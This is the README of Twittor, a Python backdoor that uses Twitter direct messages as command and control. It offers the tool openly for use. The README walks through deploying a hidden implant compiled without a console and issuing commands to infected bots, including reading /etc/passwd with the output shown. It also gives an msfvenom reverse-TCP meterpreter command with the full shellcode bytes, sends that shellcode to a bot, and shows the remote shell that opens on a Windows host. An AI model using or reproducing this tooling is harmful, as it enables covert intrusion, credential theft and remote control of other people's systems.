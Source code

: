 Twittor
====
A stealthy Python based backdoor that uses Twitter (Direct Messages) as a command and control server
This project has been inspired by [Gcat](https://github.com/byt3bl33d3r/gcat) which does the same but using a Gmail account.

Setup 
=====
For this to work you need:
- A Twitter account (**Use a dedicated account! Do not use your personal one!**)
- [Register an app](https://apps.twitter.com/app/new) on Twitter with **Read, write, and direct messages** Access levels. 

This repo contains two files:
- ```twittor.py``` which is the client
- ```implant.py``` the actual backdoor to deploy

In both files, edit the access token part and add the ones that you previously generated:

```python
CONSUMER_TOKEN = 'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'
CONSUMER_SECRET = 'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'

ACCESS_TOKEN = 'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'
ACCESS_TOKEN_SECRET = 'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'

USERNAME = 'XXXXXXXXXXXXXXXXXXXXXXXX'
```

You're probably going to want to compile ```implant.py``` into an executable using [Pyinstaller](https://github.com/pyinstaller/pyinstaller)
In order to remove the console when compiling with Pyinstaller, the flap ```--no-console``` will help. Just saying. 

Usage
=====

In order to run the client, launch the script. 

```
$ python twittor.py
```

You'll then get into an 'interactive' shell which offers few commands that are:

```
$ help

    refresh - refresh C&C control
    list_bots - list active bots
    list_commands - list executed commands
    !retrieve <jobid> - retrieve jobid command
    !cmd <MAC ADDRESS> command - execute the command on the bot
    !shellcode <MAC ADDRESS> shellcode - load and execute shellcode in memory (Windows only)
    help - print this usage
    exit - exit the client
    
$ 
```

- Once you've deployed the backdoor on a couple of systems, you can check available clients using the list command:
```
$ list_bots
B7:76:1F:0B:50:B7: Linux-x.x.x-generic-x86_64-with-Ubuntu-14.04-precise
$
```

The output is the MAC address which is used to uniquely identifies the system but also gives you OS information the implant is running on. In that case a Linux box. 


- Let's issue a command to an implant:
```
$ !cmd B7:76:1F:0B:50:B7 cat /etc/passwd
[+] Sent command "cat /etc/passwd" with jobid: UMW07r2
$
```

Here we are telling ```B7:76:1F:0B:50:B7``` to execute ```cat /etc/passwd```, the script then outputs the ```jobid``` that we can use to retrieve the output of that command

- Lets get the results!

```
$ !retrieve UMW07r2
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
(...)
```

Command to use in that case is ```!retrieve``` followed by the jobid from the command. 

- Refresh results

In order to retrieve new bots/command outputs but also force the client to refresh the results, use the ```refresh``` command.

```
$ refresh
[+] Sending command to retrieve alive bots
[+] Sleeping 10 secs to wait for bots
$
```

This will send a ```PING``` request and wait 10 seconds for them to answer.
Direct messages will then be parsed - Bot list will be refreshed but also the command list, including new command outputs. 

- Retrieve previous commands

As I said earlier, (previous) commands will be retrieved from older direct messages (limit is 200) and you can actually retrieve/see them by using the ```list_commands``` command

```
$ list_commands
8WNzapM: 'uname -a ' on 2C:4C:84:8C:D3:B1
VBQpojP: 'cat /etc/passwd' on 2C:4C:84:8C:D3:B1
9KaVJf6: 'PING' on 2C:4C:84:8C:D3:B1
aCu8jG9: 'ls -al' on 2C:4C:84:8C:D3:B1
8LRtdvh: 'PING' on 2C:4C:84:8C:D3:B1
$
```

- Running shellcode (Windows hosts)

This option might be handy in order to retrieve a meterpreter session and [this article](http://netsec.ws/?p=331#more-331) becomes really useful. 

Generate your meterpreter shellcode, like: 

```
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=3615 -f python
(...)
Payload size: 299 bytes
buf =  ""
buf += "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += "\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += "\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += "\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += "\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += "\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += "\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += "\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += "\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += "\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += "\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
buf += "\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
buf += "\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00"
buf += "\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f"
buf += "\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x00\x00\x01\x68"
buf += "\x02\x00\x0e\x1f\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5"
buf += "\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec"
buf += "\xe8\x3f\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02"
buf += "\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\xe9\x8b\x36\x6a"
buf += "\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53"
buf += "\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9"
buf += "\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\xc3\x01\xc3\x29\xc6"
buf += "\x75\xe9\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5"
```

Extract the shellcode and send it to the specified bot using the ```!shellcode``` command! 

```
$ !shellcode 11:22:33:44:55 \xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b (...)
[+] Sent shellcode with jobid: xdr7mtN
$
```

Et voilà! 

```
msf exploit(handler) > exploit

[*] Started reverse handler on 10.0.0.1:3615 
[*] Starting the payload handler...
[*] Sending stage (884270 bytes) to 10.0.0.99
[*] Meterpreter session 1 opened (10.0.0.1:3615 -> 10.0.0.99:49254) at 2015-09-08 10:19:04 -0400

meterpreter > getuid
Server username: WIN-XXXXXXXXX\PaulSec
```

Open a beer and enjoy your reverse meterpreter shell. 

Contributing and/or questions? 
=====

Project is entirely open source and released under MIT license.
I mostly wanted to create a PoC after Twitter decided to remove the 140 characters limit for the Direct Messages. 
Few stuff should be added such as Encryption (Adding AES on top of it). 
"Messages" are using a dictionary data structure and the whole command is only base64 encoded. 
Fork the project, contribute, submit pull requests, and have fun. 

If you find a bug, open an issue on Github and/or ping me on [Twitter](http://twitter.com/PaulWebSec).

Again, feel free to check the [Gcat](https://github.com/byt3bl33d3r/gcat) amazing project from [byt3bl33d3r](https://twitter.com/byt3bl33d3r) that inspired me a lot.
